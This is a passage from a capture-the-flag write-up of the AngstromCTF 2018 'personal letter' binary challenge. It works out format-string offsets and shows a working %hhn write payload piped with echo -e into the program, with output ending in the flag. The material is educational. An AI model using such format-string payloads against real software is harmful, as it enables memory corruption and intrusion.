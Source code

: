 ![printfStopPoint](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/personal%20letter%20(130)/src/printfStopPoint.PNG)

![stackView](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/personal%20letter%20(130)/src/stackView.PNG)

![inputStackAddress](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/personal%20letter%20(130)/src/inputStackAddress.PNG)

Here on the screenshots we see that our input are stored at indexes 26 and 27 in the printCard() stack. Now we need to find digit1 and digit3. In the stack are stored 16 bytes: "| Dear, " - it's first 8 and our input will be 8 bytes too. So now we have 16 bytes. It's 10h, and we need 2bh, so the digit1 will be 2bh-10h=1bh=27. Next, we will need 87h, but we have 2b. digit3 will be 87h-2bh=5ch=92. Now we have our input: \x30\xa0\x04\x08\x31\xa0\x04\x08%27x%26\$hhn%92x%27\$hhn. But we can't write bytes from keyboard so I will use echo -e. Let's try it.
<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># echo -e &quot;\x30\xa0\x04\x08\x31\xa0\x04\x08%27x%26\$hhn%92x%27\$hhn&quot; | ./personal_letter32
Welcome to the personal letter program!
Give us your name, and we will generate a letter just for you!
Enter Name (100 Chars max): 
________________________________________
|                                      |
|                                      |
|  Dear 0�1�                   ff7fa218                                                                                          1c,|
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|  __________________________________  |
|______________________________________|
Exiting.

Status Code: 0
Here&apos;s a flag: actf{flags_are_fun}
</pre>